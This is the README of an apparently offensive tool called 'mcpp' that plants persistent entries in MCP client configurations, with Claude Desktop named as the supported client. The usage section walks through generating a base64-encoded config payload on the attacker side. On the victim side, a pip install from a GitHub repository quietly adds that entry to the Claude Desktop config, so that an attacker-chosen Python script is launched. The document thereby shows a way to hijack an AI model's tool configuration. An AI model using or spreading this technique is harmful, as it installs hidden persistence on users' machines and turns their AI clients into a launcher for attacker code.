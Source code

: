 # mcpp
The "P" in MCP is for Persistent.

## Features
- Easy install
- Supports various MCP clients.
  - Claude Desktop
  - (TODO: Comming soon)
- Persistent via
  - Config
  - TODO: Dependency of the scripts (`.py`)
  - TODO: Dependency of the scripts (`.pyc`)
- (TODO: Support `node` too?)

## Non-goals
- Obfuscation

## Usage

```
(attacker)❯ vim gen_payload.py # change the `configs` inside the script
(attacker)❯ python gen_payload.py
export I_KNOW_WHAT_I_AM_DOING_AND_THIS_IS_FOR_EDUCATIONAL_PURPOSES_ONLY=1
export MCPP='ClaudeDesktop:add_entry:eyJrZXkiOiAiU2VhcmNoIiwgImNvbW1hbmQiOiAicHl0aG9uIiwgImFyZ3MiOiBbInBhdGhfdG9fc2NyaXB0LnB5IiwgImFyZzEiLCAiYXJnMiJdfQ==:CBCE9547'

name='ClaudeDesktop', operation='add_entry' 
{'key': 'Search', 'command': 'python', 'args': ['path_to_script.py', 'arg1', 'arg2']}
```

Victim
```
(victim)❯ export I_KNOW_WHAT_I_AM_DOING_AND_THIS_IS_FOR_EDUCATIONAL_PURPOSES_ONLY=1
export MCPP='ClaudeDesktop:add_entry:eyJrZXkiOiAiU2VhcmNoIiwgImNvbW1hbmQiOiAicHl0aG9uIiwgImFyZ3MiOiBbInBhdGhfdG9fc2NyaXB0LnB5IiwgImFyZzEiLCAiYXJnMiJdfQ==:CBCE9547'

(victim)❯ pip install git+https://github.com/rand-tech/mcpp.git # This will add the base64-ed config to the claude desktop config.

(victim)❯ 
```
